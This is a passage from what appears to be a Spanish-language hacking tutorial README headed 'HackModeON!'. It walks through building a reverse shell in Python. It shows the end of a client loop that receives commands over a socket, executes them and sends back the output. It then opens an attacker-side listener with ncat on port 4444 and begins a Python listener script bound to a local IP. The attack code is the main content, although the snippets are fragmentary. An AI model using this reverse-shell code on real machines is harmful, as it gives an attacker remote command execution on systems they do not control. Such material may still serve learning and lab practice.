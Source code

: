 ```bash
 
 

comando = connection.recv(1024) 

resultado_comando = ejecutar_comando(comando) 

connection.send(resultado_comando) 

 
 

connection.close() 
```

![conexion establecida parrot listener](https://user-images.githubusercontent.com/97669969/157427320-498682d2-a0e0-4a57-b53b-9b0f9ffc31b0.png)




# Ubuntu (Hacker) 

* Listener abierto  

```bash 
ncat -l -vv 4444 
```


![comandos ubuntu](https://user-images.githubusercontent.com/97669969/157427016-d88259d8-ec81-4039-a655-0de6c1195e4f.png)

 
 # HackModeON! > VAMOS A CREAR NUESTRO PROPIO LISTENER CON PYTHON !

 

 
# listener.py 
 ```bash
import socket 

 
 

listener = socket.socket(socket.AF_INET,socket.SOCK_STREAM) 

 
 

listener.setsockopt(socket.SOL_SOCKET,socket.SO_REUSEADDR, 1) 

 
 

listener.bind(("192.168.1.133" ,4444)) 

 
 

listener.listen(0) 

 
 
 ```